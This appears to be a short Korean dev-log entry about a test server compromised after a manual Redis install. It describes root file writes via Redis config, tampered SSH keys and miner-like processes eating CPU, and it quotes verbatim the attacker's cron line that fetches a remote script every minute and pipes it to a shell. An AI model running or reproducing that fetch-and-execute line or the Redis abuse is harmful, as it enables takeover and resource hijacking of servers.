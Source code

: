 20190919
모니터링하다가 
갑자기 테섭에서 

sysupdate
networkservice
nobody, root 유저로 cpu 99%를 점유하는 일이 발생했다.

문제 발생은 항상 
redis 수동 설치를 하고 나면 발생

redis의 set config를 이용하여 파일 쓰기를 시도하고
root권한

매분마다 크론으로 다음 파일을 받은후 실행 시켜 프로세스들이 제대로 동작하지 못하도록 한다
*/1 * * * * curl -fsSL http://185.181.10.234/E5DB0E07C3D7BE80V520/init.sh |sh

authorized_keys가 깨지게 됨
known_hosts에 특정 호스트를 등록
root권한 취득 후

sysupdate
networkservice

프로세스를 마구 마구 돌려 해당 클라우드가 먹통이 되게 만듬

Redis Manager를 무료 프로그램으로 사용하고 있는데 심히 의심이 감

https://www.aledk.com/727.html

